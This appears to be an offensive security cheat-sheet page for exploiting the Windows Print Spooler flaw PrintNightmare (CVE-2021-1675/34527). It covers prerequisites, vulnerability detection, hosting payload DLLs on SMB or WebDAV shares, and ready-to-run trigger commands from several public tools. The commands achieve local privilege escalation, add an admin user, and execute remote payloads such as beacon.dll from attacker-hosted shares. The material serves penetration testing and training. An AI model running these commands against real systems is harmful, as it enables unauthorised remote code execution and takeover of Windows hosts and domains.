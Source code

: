# PrintNightmare

> CVE-2021-1675 / CVE-2021-34527

The DLL will be stored in `C:\Windows\System32\spool\drivers\x64\3\`.
The exploit will execute the DLL either from the local filesystem or a remote share.

Requirements:

* **Spooler Service** enabled (Mandatory)
* Server with patches < June 2021
* DC with `Pre Windows 2000 Compatibility` group
* Server with registry key `HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall` = (DWORD) 1
* Server with registry key `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA` = (DWORD) 0

**Detect the vulnerability**:

* Impacket - [impacket/rpcdump](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/rpcdump.py)

  ```ps1
  python3 ./rpcdump.py @10.0.2.10 | egrep 'MS-RPRN|MS-PAR'
  Protocol: [MS-RPRN]: Print System Remote Protocol
  ```

* [byt3bl33d3r/ItWasAllADream](https://github.com/byt3bl33d3r/ItWasAllADream)

  ```ps1
  cd ItWasAllADream && poetry install && poetry shell
  itwasalladream -u user -p Password123 -d domain 10.10.10.10/24
  docker run -it itwasalladream -u username -p Password123 -d domain 10.10.10.10
  ```

**Payload Hosting**:

* The payload can be hosted on Impacket SMB server since [PR #1109](https://github.com/SecureAuthCorp/impacket/pull/1109):

  ```ps1
  python3 ./smbserver.py share /tmp/smb/
  ```

* Using [3gstudent/Invoke-BuildAnonymousSMBServer](https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer/blob/main/Invoke-BuildAnonymousSMBServer.ps1) (Admin rights required on host):

  ```ps1
  Import-Module .\Invoke-BuildAnonymousSMBServer.ps1; Invoke-BuildAnonymousSMBServer -Path C:\Share -Mode Enable
  ```

* Using WebDav with [SharpWebServer](https://github.com/mgeeky/SharpWebServer) (Doesn't require admin rights):

  ```ps1
  SharpWebServer.exe port=8888 dir=c:\users\public verbose=true
  ```

When using WebDav instead of SMB, you must add `@[PORT]` to the hostname in the URI, e.g.: `\\172.16.1.5@8888\Downloads\beacon.dll`
WebDav client **must** be activated on exploited target. By default it is not activated on Windows workstations (you have to `net start webclient`) and it's not installed on servers. Here is how to detect activated webdav:

```ps1
nxc smb -u user -p password -d domain.local -M webdav [TARGET]
```

**Trigger the exploit**:

* [cube0x0/SharpNightmare](https://github.com/cube0x0/CVE-2021-1675)

  ```powershell
  # require a modified Impacket: https://github.com/cube0x0/impacket
  python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
  python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
  ## LPE
  SharpPrintNightmare.exe C:\addCube.dll
  ## RCE using existing context
  SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_addb31f9bff9e936\Amd64\UNIDRV.DLL' '\\192.168.1.20'
  ## RCE using runas /netonly
  SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll'  'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL' '\\192.168.1.10' hackit.local domain_user Pass123
  ```

* [calebstewart/Invoke-Nightmare](https://github.com/calebstewart/CVE-2021-1675)

  ```powershell
  ## LPE only (PS1 + DLL)
  Import-Module .\cve-2021-1675.ps1
  Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
  Invoke-Nightmare -DriverName "Dementor" -NewUser "d3m3nt0r" -NewPassword "AzkabanUnleashed123*" 
  Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
  ```

* [gentilkiwi/mimikatz v2.2.0-20210709+](https://github.com/gentilkiwi/mimikatz/releases)

  ```powershell
  ## LPE
  misc::printnightmare /server:DC01 /library:C:\Users\user1\Documents\mimispool.dll
  ## RCE
  misc::printnightmare /server:CASTLE /library:\\10.0.2.12\smb\beacon.dll /authdomain:LAB /authuser:Username /authpassword:Password01 /try:50
  ```

* [outflanknl/PrintNightmare](https://github.com/outflanknl/PrintNightmare)

  ```powershell
  PrintNightmare [target ip or hostname] [UNC path to payload Dll] [optional domain] [optional username] [optional password]
  ```

**Debug informations**

| Error  | Message               | Debug                                    |
|--------|-----------------------|------------------------------------------|
| 0x5    | `rpc_s_access_denied` | Permissions on the file in the SMB share |
| 0x525  | `ERROR_NO_SUCH_USER`  | The specified account does not exist.    |
| 0x180  | unknown error code    | Share is not SMB2                        |

## References

* [Playing with PrintNightmare - 0xdf - Jul 8, 2021](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html)
* [A Practical Guide to PrintNightmare in 2024 - itm4n - Jan 28, 2024](https://itm4n.github.io/printnightmare-exploitation/)
